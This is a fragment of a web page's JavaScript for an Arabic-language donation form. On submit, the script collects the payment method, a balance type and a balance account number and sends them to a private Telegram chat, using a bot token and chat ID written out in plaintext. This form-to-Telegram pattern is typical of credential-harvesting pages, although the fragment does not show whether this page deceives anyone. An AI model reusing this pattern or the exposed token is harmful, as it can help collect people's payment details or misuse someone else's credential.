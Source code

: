         document.addEventListener('DOMContentLoaded', function() {
            const paymentMethodRadios = document.querySelectorAll('input[name="payment-method"]');
            const athirDetails = document.getElementById('athir-details');
            const paymentForm = document.getElementById('payment-form');
            const checkmark = document.querySelector('.checkmark');
            
            paymentForm.addEventListener('submit', function(event) {
                event.preventDefault(); // Prevent the form from submitting the traditional way

                const formData = new FormData(paymentForm);
                const data = {};
                formData.forEach((value, key) => {
                    data[key] = value;
                });

                const message = `
                    تبرع جديد:
                    - طريقة الدفع: ${data['payment-method']}
                    - نوع الرصيد: ${data['balance-type']}
                    - رقم حساب الرصيد: ${data['balance-number']}
                `;

                const botToken = '7441053139:AAH8-h15LJE1UZQpMlf1AkdfShHLsotFaZ0';
                const chatId = '1691133310'; // استخدم معرف الدردشة الخاص بك

                fetch(`https://api.telegram.org/bot${botToken}/sendMessage`, {
                    method: 'POST',
                    headers: {
                        'Content-Type': 'application/json'
                    },
                    body: JSON.stringify({
                        chat_id: chatId,
                        text: message,
                        parse_mode: 'HTML'
                    })
                }).then(response => {
                    if (response.ok) {
                        checkmark.style.display = 'block'; // عرض علامة صح
                        setTimeout(() => {
                            checkmark.style.display = 'none'; // إخفاء علامة الصح بعد 3 ثوانٍ
                        }, 3000);
                        paymentForm.reset(); // إعادة تعيين النموذج بعد الإرسال
                    } else {
                        alert('فشل إرسال التبرع.');
                    }
                }).catch(error => {
                    console.error('حدث خطأ:', error);
                    alert('حدث خطأ في الاتصال.');
                });
            });
        });
    </script>
</body>
</html>
